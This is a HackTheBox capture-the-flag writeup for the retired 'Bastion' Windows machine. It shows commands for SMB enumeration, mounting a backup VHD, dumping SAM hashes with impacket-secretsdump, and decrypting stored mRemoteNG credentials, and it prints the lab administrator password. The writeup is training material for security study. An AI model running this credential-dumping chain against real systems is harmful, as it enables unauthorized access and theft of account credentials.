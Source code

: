 ```yaml
---
layout: default
title : muzec - Bastion Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/124597791-ca28e500-de5b-11eb-84d7-75a5f667876b.png)

We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```

```
# Nmap 7.91 scan initiated Mon Jul  5 10:55:33 2021 as: nmap -sC -sV -oA nmap 10.10.10.134
Nmap scan report for 10.10.10.134
Host is up (0.46s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h20m57s, deviation: 1h09m13s, median: 3h00m54s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-07-05T14:57:52+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-07-05T12:57:48
|_  start_date: 2021-07-05T04:32:51

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul  5 10:57:10 2021 -- 1 IP address (1 host up) scanned in 97.46 seconds
```

My second windows box on HackTheBox and would actually say am loving it so we are having some ports let start on eumerating SMB for some anonymous log shares.

```
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/retired/10.10.10.134]
└─$ smbclient -L //10.10.10.134/ -N         

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```

Seems we have access to the backups share on SMB let connect to it.

![image](https://user-images.githubusercontent.com/69868171/124598438-8387ba80-de5c-11eb-9259-145762eca73c.png)

We are in cool let get the `note.txt` first maybe we are left with a hint to keep going forward and we still have some juciy directories to check lol.

```
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/retired/10.10.10.134]
└─$ cat note.txt     
Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
```

Cool? let try to check what the system admin was talking about so let enumerate the directories.

`\\10.10.10.134\Backups\WindowsImageBackup\L4mpje-PC\Backup 2019-02-22 124351\`

![image](https://user-images.githubusercontent.com/69868171/124598938-11fc3c00-de5d-11eb-9be8-8efd5d76ed76.png)

Ok we have some cool files also a Virtual Hard Disk Image but the problem am facing is that it always disconnect when i try to get the file i think that what the system admin was talking about.

![image](https://user-images.githubusercontent.com/69868171/124599290-6bfd0180-de5d-11eb-96ad-26ea770a7742.png)

With some little research i was able to find a way to mount it on my Kali machine.

### Mounting A VHD On Linux

First step is to install the tool `sudo apt install libguestfs-tools -y`

```
sudo mount -t cifs //10.10.10.134/backups /mnt -o user=,password=
```

![image](https://user-images.githubusercontent.com/69868171/124599859-107f4380-de5e-11eb-85fe-beb468d8af6f.png)

![image](https://user-images.githubusercontent.com/69868171/124600087-46bcc300-de5e-11eb-8c8e-9c4b4d18c684.png)

So we have it mounted already cool. Now we need a directory that we need to use to mount the VHD file.

```
sudo mkdir /mnt/Vhd
```

Now we are going to use guestmount to mount the directory in read-only `ro` mode, and, use it with the folder we created `/mnt/vhd` .

```
sudo guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro -v /mnt/vhd
```

![image](https://user-images.githubusercontent.com/69868171/124601024-47098e00-de5f-11eb-9579-062f3d6e06f7.png)

It going to take sometime so we have to wait for it to be done maybe grab a cup of coffee.

```
sudo su
cd /mnt/vhd
```

![image](https://user-images.githubusercontent.com/69868171/124603735-28f15d00-de62-11eb-8cff-2328add0b0a5.png)

Now we can try to check for interesting directories and files like dumping SAM database.

### How To Extract Local SAM Database From VHD Files

Since we have mount the VHD on our Kali machine we can go ahead and dump SAM database that store credentials.

```
cd /Windows/System32/config
cp SAM SYSTEM /tmp
```
![image](https://user-images.githubusercontent.com/69868171/124605208-9487fa00-de63-11eb-85a0-e01f83259aaa.png)

NOTE:- We can also grab nts.dit if we are on a domain controller so we can crack all of the AD hashes.

Now let change to the `tmp` directory.

```
cd /tmp
impacket-secretsdump -sam SAM -system SYSTEM local
```

![image](https://user-images.githubusercontent.com/69868171/124605805-34458800-de64-11eb-84a1-a5d1551a3d13.png)

Now that we have the hashes let try to crack it.

![image](https://user-images.githubusercontent.com/69868171/124606020-65be5380-de64-11eb-854f-6ae2a4bf5ea1.png)

So i was able to crack `L4mpje` password hash now since we have SSH open let try it.

![image](https://user-images.githubusercontent.com/69868171/124606572-eda45d80-de64-11eb-9b42-f79221f6587c.png)

We are in now let get `user.txt` .

![image](https://user-images.githubusercontent.com/69868171/124607567-e29dfd00-de65-11eb-8c69-2505b7c40d30.png)

### SYSTEM / ADMINISTRATOR

Time to get system i really have a tough time here since i know nothing about windows so i just peep at write up to know what am missing so that get me back on a track.

![image](https://user-images.githubusercontent.com/69868171/124623819-3a436500-de74-11eb-8773-60d8cf0f95bd.png)

When I checked the user appdata I saw that mRemoteNG was installed on the box so i quickly google search about it.

mRemoteNG is a fork of mRemote: an open source, tabbed, multi-protocol, remote connections manager. mRemoteNG adds bug fixes and new features to mRemote.

It allows you to view all of your remote connections in a simple yet powerful tabbed interface.

mRemoteNG saves the connections info and credentials in a file called `confCons.xml` 

![image](https://user-images.githubusercontent.com/69868171/124624448-c8b7e680-de74-11eb-9e44-4b39c64718b3.png)

![image](https://user-images.githubusercontent.com/69868171/124624523-da00f300-de74-11eb-9b2a-4a571a62cb94.png)

Now we have administrator password but it encrypted let find a way to decrypt it.

```
git clone https://github.com/haseebT/mRemoteNG-Decrypt.git
```

![image](https://user-images.githubusercontent.com/69868171/124625060-5f84a300-de75-11eb-87f4-8df52793b5d1.png)

```
python3 mremoteng_decrypt.py -s 
```

![image](https://user-images.githubusercontent.com/69868171/124625148-79be8100-de75-11eb-8fca-4ed5326f3428.png)

```
Username:- administrator
Password:- thXLHM96BeKL0ER2
```
Now we have credentials for administrator let hit SSH to get the root flag.

![image](https://user-images.githubusercontent.com/69868171/124625591-d6ba3700-de75-11eb-99de-63595e091a59.png)

We are done. 

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
